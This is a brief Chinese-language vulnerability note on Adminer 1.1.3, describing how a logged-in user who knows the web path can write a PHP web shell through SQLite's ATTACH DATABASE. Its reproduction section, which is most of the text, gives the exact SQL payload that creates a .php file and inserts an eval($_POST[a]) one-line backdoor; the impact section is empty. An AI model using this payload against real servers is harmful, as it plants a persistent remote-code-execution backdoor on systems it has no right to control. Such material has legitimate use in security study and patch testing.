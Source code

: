 <h1>Adminers 1.1.3 （SQLite 3 写入一句话木马）</h1>
<h2>一、漏洞简介</h2>
<p>需要登陆Adminers，并且需要知道网站的路径。</p>
<h2>二、漏洞影响</h2>
<h2>三、复现过程</h2>
<pre><code class="language-php">ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/*

ATTACH DATABASE '/网站/路径/shell.php' AS t;insert INTO t.e (d) VALUES ('&lt;?php eval($_POST[a])?&gt;');/*</code></pre>
